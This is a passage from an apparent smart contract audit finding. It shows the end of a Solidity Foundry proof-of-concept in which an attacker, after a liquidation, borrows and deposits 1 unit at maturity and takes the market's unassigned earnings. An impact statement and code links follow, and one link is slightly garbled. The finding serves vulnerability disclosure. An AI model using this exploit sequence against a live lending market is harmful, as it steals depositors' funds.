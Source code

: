 ```solidity
  vm.stopPrank();

  skip(1 days);

  // LIQUIDATOR liquidates ALICE, wiping ALICE'S maturity borrow
  // and ignores its unassigned rewards
  address liquidator = makeAddr("liquidator");
  vm.startPrank(liquidator);
  deal(address(asset), liquidator, assets);
  asset.approve(address(market), assets);
  market.liquidate(ALICE, type(uint256).max, market);
  vm.stopPrank();

  // ATTACKER deposits to borrow at maturity
  address attacker = makeAddr("attacker");
  deal(address(asset), attacker, 20);
  vm.startPrank(attacker);
  asset.approve(address(market), 20);
  market.deposit(10, attacker);

  // ATTACKER borrows at maturity, making floatingBackupBorrowed = 1 > supply = 0
  market.borrowAtMaturity(maturity, 1, type(uint256).max, attacker, attacker);

  // ATTACKER deposits just 1 at maturity, claiming all the unassigned earnings
  // by only providing 1 principal
  uint256 positionAssets = market.depositAtMaturity(maturity, 1, 0, attacker);
  assertEq(positionAssets, 6657534246575341801);
}
```

## Impact

Attacker steals the unassigned earnings from the liquidation of a borrowed maturity with 1 principal.

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L244
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L293
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L375
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L478
https://github.com/sherlock-aaccrueudit/2024-04-interest-rate-model-0x73696d616f/blob/main/protocol/contracts/Market.sol#L508
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L565
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/utils/FixedLib.sol#L84
